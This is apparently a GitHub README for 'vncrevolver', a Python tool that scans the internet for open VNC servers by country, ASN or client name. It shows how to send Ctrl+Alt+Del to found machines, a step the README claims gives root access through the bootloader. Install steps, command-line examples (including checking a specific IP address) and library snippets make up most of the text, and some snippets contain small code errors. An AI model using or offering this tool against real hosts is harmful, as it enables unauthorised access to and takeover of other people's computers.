 # VNCREVOLVER
## Automate search for open VNC servers
![vnc](https://github.com/cristiancmoises/vncrevolver/assets/86272521/18f2c15d-2232-47f4-b713-093af67daa7a)

# Table Of Contents

* [`Dependencies`](#required)
* [`Install`](#install)
* [`Features`](#features)
* [`Usage`](#commands)


## Required:
     pip install pydantic 
     pip install asyncvnc 
     pip install aiohttp

# Install:
    git clone https://github.com/cristiancmoises/vncrevolver
    cd vncrevolver

|  #Features:                                                                         |
|------------------------------------------------------------------------------------|
| 🌎  _Search for many open Vnc Servers around the world_                             |
| 📍 _Filter by country_                                                             |
| 🔢   _List more than one_                                                            |
| 🖥️  _List by Client name_                                                            |
| ✅  _Checks them for vulnerabilities by rebooting the machine via Ctrl+ALT+DEL, obtaining root access through the operating system bootloader easyly._ |

# Commands
## BASIC:
    python -m vncrevolver
    
## DEEP SEARCH:
    python -m vncrevolver --clientname ubuntu --count 10

## CTRL + ALT + DEL  | CHECK
    python -m vncrevolver --clientname ubuntu --count 10 --check_crt_alt_del

## CHECK A SPECIFIC ADDRESS:
    python -m vncrevolver --check_crt_alt_del 123.12.1.23:5901

> # START ME UP!   
    $ python -m vncrevolver --help

    usage: vncrevolver [-h] [--clientname CLIENTNAME] [--country COUNTRY] [--asn ASN]  [--count COUNT] [--check_crt_alt_del [CHECK_CRT_ALT_DEL]] [--show_failed] [--screen_delay SCREEN_DELAY]

    optional arguments:
    -h, --help            show this help message and exit
    --clientname CLIENTNAME
                        Filter by client name, note that it is case-sensitive!
    --country COUNTRY     Filter by ISO 3166-1 alpha-2 country code
    --asn ASN             Filter by ASN
    --count COUNT         Number of VNCs to find
    --check_crt_alt_del [CHECK_CRT_ALT_DEL]
                        If you specify this parameter without a value, only those VNCs from the search that pass the ctrl_alt_del check will be returned. If a value is passed, it must be a VNC
                        address that will be checked against ctrl_alt_del.
    --show_failed         Return VNCs that failed the ctrl_alt_del check
    --screen_delay SCREEN_DELAY
                        Delay between taking two screenshots in milliseconds

    If you specify one of the filtering parameters, a search by fitration will be launched, otherwise a search for random VNCs will be launched. If you specify the --count option, the required VNC
    number will be found. The number of found VNCs may be less than the --count parameter when searching with filtering.

> # Use filters:

    from typing import List
    from vncrevolver.search import VNC, search_filter

    hosts: List[VNC] = await search_filter(clientname='ubuntu')
    for vnc in hosts:
    print(vnc.ip, vnc,port)

> # Random Search
    from vncrevolver.search import VNC, search_random
    vnc: VNC = await search_random()
    print(vnc.ip, vnc.port)
  
> # Ctrl + ALT + DEL - CHECK UP!
    from vncrevolver.search import VNC, search_random
    from vncrevolver.vnc import check_crt_alt_del
    vnc: VNC = await search_random()
    print(await check_crt_alt_del(vnc.ip, vnc.port))

   
